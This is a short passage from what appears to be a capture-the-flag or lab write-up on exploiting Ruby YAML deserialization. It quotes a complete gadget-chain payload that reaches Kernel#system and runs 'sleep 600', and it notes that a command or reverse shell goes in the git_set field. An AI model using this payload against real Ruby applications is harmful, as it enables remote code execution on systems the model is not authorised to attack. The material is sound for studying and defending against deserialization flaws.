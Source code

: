 - Then research about [dependencies yaml file](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
- In this writeup, I find the following dependencies yaml sample
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

![](./IMG/19.png)
- And according to this writeup, I know the command or reverse shell has to put in ```git set``` value.
